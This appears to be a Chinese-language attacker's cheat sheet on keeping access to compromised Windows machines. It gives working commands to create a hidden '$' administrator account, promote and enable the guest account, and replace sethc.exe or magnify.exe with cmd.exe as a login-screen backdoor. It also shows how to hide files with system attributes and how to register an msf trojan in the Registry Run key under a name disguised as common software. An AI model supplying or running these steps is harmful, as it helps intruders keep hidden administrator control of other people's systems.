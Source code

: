 ## Windows权限维持

#### 1、创建隐藏用户

使用命令创建用户时，通过在用户名后加 $ 来创建一个隐藏账户。

```shell
net user hacker$ password /add		# 创建隐藏账户hacker$
net localgroup administrators hacker$ /add		# 将该用户添加至管理员组%
```

#### 2、启用来宾用户（guest）

```shell
net user guest password 
net localgroup administrators guest /add    # 将guest用户移动至管理员组
net user guest /active:yes                   # 启用guest用户
```

#### 3、Shift 后门

```shell
1、修改c:\windows\system32的目录权限，若无法修改，可以尝试将该目录拥有者修改为administrator，而后再进行修改。

2、将复制好的cmd.exe改名后替换掉c:\windows\system32下原始的sethc.exe。

3、在登录页面，连按五次shift即可弹出cmd命令窗口。

4、放大镜magnify.exe同理
```

#### 4、隐藏属性后门文件

Windows下隐藏文件，除了设置为隐藏属性外，还可以使用 attrib 命令设置文件为 系统文件。这样单独显示隐藏文件是看不到的。必须要显示系统文件才能看到。

```shell
attrib +H +S 文件名
```

#### 5、注册表开机自动启动项

```shell
# 1、利用msf生成一个木马shell.exe文件，详细过程不赘述了

# 2、利用msf开启监听

# 3、将木马上传到目标主机

# 4、打开注册表，找到HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run子键，而后右键->新建->字符串值。填入数值名称，和数值数据内容为木马程序所在路径+”-autorun”

# 5、可以将数值名称和木马名称修改为常用的软件，混淆视听
```






